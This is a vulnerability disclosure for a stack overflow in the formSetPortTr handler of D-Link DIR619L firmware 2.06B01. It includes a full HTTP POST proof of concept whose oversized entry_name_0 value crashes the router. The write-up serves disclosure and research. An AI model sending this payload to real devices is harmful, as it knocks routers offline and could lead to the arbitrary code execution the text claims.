

# D-Link Vulnerability

Vendor:D-Link

Product:DIR619L

Version:2.06B01

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)


## Vulnerability description

We found an stack overflow vulnerability in D-Link router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `boa` binary:

In the router's `formSetPortTr` function, `inputPortRng_%d、trigPortRng_%d、entry_name_%d、sched_name_%d` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `inputPortRng_%d、trigPortRng_%d、entry_name_%d、sched_name_%d` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `inputPortRng_%d、trigPortRng_%d、entry_name_%d、sched_name_%d` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `entry_name_%d` as **aaaaa......,** , and the router will crash, such as:

```http
POST /goform/formSetPortTr HTTP/1.1
Host: 192.168.100.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 4700
Origin: http://192.168.100.1
Connection: close
Referer: http://192.168.100.1/Advanced/Special_Applications.asp?t=1749216630397
Upgrade-Insecure-Requests: 1

settingsChanged=1&curTime=1431078168&used_0=0&enabled_0=0&entry_name_0=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&trigPortRng_0=&trigPortPtc_0=257&sched_name_0=Always&inputPortRng_0=&inputPortPtc_0=257&used_1=0&enabled_1=0&entry_name_1=&trigPortRng_1=&trigPortPtc_1=257&sched_name_1=Always&inputPortRng_1=&inputPortPtc_1=257&used_2=0&enabled_2=0&entry_name_2=&trigPortRng_2=&trigPortPtc_2=257&sched_name_2=Always&inputPortRng_2=&inputPortPtc_2=257&used_3=0&enabled_3=0&entry_name_3=&trigPortRng_3=&trigPortPtc_3=257&sched_name_3=Always&inputPortRng_3=&inputPortPtc_3=257&used_4=0&enabled_4=0&entry_name_4=&trigPortRng_4=&trigPortPtc_4=257&sched_name_4=Always&inputPortRng_4=&inputPortPtc_4=257&used_5=0&enabled_5=0&entry_name_5=&trigPortRng_5=&trigPortPtc_5=257&sched_name_5=Always&inputPortRng_5=&inputPortPtc_5=257&used_6=0&enabled_6=0&entry_name_6=&trigPortRng_6=&trigPortPtc_6=257&sched_name_6=Always&inputPortRng_6=&inputPortPtc_6=257&used_7=0&enabled_7=0&entry_name_7=&trigPortRng_7=&trigPortPtc_7=257&sched_name_7=Always&inputPortRng_7=&inputPortPtc_7=257&used_8=0&enabled_8=0&entry_name_8=&trigPortRng_8=&trigPortPtc_8=257&sched_name_8=Always&inputPortRng_8=&inputPortPtc_8=257&used_9=0&enabled_9=0&entry_name_9=&trigPortRng_9=&trigPortPtc_9=257&sched_name_9=Always&inputPortRng_9=&inputPortPtc_9=257&used_10=0&enabled_10=0&entry_name_10=&trigPortRng_10=&trigPortPtc_10=257&sched_name_10=Always&inputPortRng_10=&inputPortPtc_10=257&used_11=0&enabled_11=0&entry_name_11=&trigPortRng_11=&trigPortPtc_11=257&sched_name_11=Always&inputPortRng_11=&inputPortPtc_11=257&used_12=0&enabled_12=0&entry_name_12=&trigPortRng_12=&trigPortPtc_12=257&sched_name_12=Always&inputPortRng_12=&inputPortPtc_12=257&used_13=0&enabled_13=0&entry_name_13=&trigPortRng_13=&trigPortPtc_13=257&sched_name_13=Always&inputPortRng_13=&inputPortPtc_13=257&used_14=0&enabled_14=0&entry_name_14=&trigPortRng_14=&trigPortPtc_14=257&sched_name_14=Always&inputPortRng_14=&inputPortPtc_14=257&used_15=0&enabled_15=0&entry_name_15=&trigPortRng_15=&trigPortPtc_15=257&sched_name_15=Always&inputPortRng_15=&inputPortPtc_15=257&used_16=0&enabled_16=0&entry_name_16=&trigPortRng_16=&trigPortPtc_16=257&sched_name_16=Always&inputPortRng_16=&inputPortPtc_16=257&used_17=0&enabled_17=0&entry_name_17=&trigPortRng_17=&trigPortPtc_17=257&sched_name_17=Always&inputPortRng_17=&inputPortPtc_17=257&used_18=0&enabled_18=0&entry_name_18=&trigPortRng_18=&trigPortPtc_18=257&sched_name_18=Always&inputPortRng_18=&inputPortPtc_18=257&used_19=0&enabled_19=0&entry_name_19=&trigPortRng_19=&trigPortPtc_19=257&sched_name_19=Always&inputPortRng_19=&inputPortPtc_19=257&used_20=0&enabled_20=0&entry_name_20=&trigPortRng_20=&trigPortPtc_20=257&sched_name_20=Always&inputPortRng_20=&inputPortPtc_20=257&used_21=0&enabled_21=0&entry_name_21=&trigPortRng_21=&trigPortPtc_21=257&sched_name_21=Always&inputPortRng_21=&inputPortPtc_21=257&used_22=0&enabled_22=0&entry_name_22=&trigPortRng_22=&trigPortPtc_22=257&sched_name_22=Always&inputPortRng_22=&inputPortPtc_22=257&used_23=0&enabled_23=0&entry_name_23=&trigPortRng_23=&trigPortPtc_23=257&sched_name_23=Always&inputPortRng_23=&inputPortPtc_23=257
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div
